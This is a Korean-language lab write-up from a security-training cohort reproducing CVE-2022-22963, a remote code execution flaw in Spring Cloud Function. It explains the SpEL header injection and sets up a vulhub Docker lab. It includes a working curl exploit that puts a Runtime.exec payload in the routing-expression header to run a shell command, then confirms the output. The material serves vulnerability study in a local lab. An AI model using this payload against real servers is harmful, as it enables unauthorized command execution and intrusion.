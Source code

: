 ## SSpring Cloud Function SpEL Code Injection (CVE-2022-22963)
> 화이트햇스쿨 3기 21반 이가영

## 요약

CVE-2022-22963은 Spring Cloud Function 3.1.6 이하 및 3.2.2 이하 버전에서 발생하는 **원격 코드 실행(RCE)** 취약점이다.  
공격자는 **`spring.cloud.function.routing-expression`** HTTP 헤더에 Java 표현식을 삽입하여 서버 측에서 원격으로 임의의 코드를 실행할 수 있다.


### ✔️ 취약점 원인

- Spring Cloud Function은 요청을 라우팅할 때,  
  `spring.cloud.function.routing-expression`이라는 헤더를 읽어 SpEL(Spring Expression Language)을 해석함
- 이 필드에 Java의 `Runtime.getRuntime().exec()` 호출 같은 명령이 들어오면,  
  **해당 명령어를 실행시켜버림** (보안 필터링 없음)
- 즉, 공격자는 **HTTP 요청만으로 서버 내에서 임의 명령어를 실행할 수 있음**

### ✔️ 공격 흐름

1. 공격자가 POST 요청에 악성 헤더 삽입  
2. Spring 서버가 해당 SpEL을 파싱하여 함수로 인식  
3. Java `Runtime.exec()` 호출됨 → 명령어 실행  
4. 명령어 실행 결과는 로그나 파일로 확인 가능

---

## 환경 구성

### 1. 취약한 Docker 환경 다운로드 (sparse checkout)

```bash
mkdir vulhub-cve
cd vulhub-cve
git init
git remote add origin https://github.com/vulhub/vulhub.git
git config core.sparseCheckout true
echo "spring/CVE-2022-22963" >> .git/info/sparse-checkout
git pull origin master
cd spring/CVE-2022-22963
```

### 2. 취약점 재현
burp suite를 이용하는 대신, curl 명령어를 통해 취약점을 재현하였다. 참고 보고서에서 한 파일 생성에 더하여 id 명령어의 내용을 파일로 생성하였다.

```bash
curl -X POST http://localhost:8080/functionRouter \
  -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec(new String[]{\"sh\", \"-c\", \"id > /tmp/id.txt\"})" \
  -H "Content-Type: text/plain" \
  --data 'test'
```

### 3. 확인
<img width="1466" alt="image" src="https://github.com/user-attachments/assets/f811c6c4-c346-4254-9d2b-a3086f9f2a8c" />

```bash
docker exec -it cve-2022-22963-spring-1 bash
cat /tmp/id.txt
```

sh -c "id > /tmp/id.txt" 명령어가 실제로 실행되었음을 알 수 있다.

## 출처
> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22963
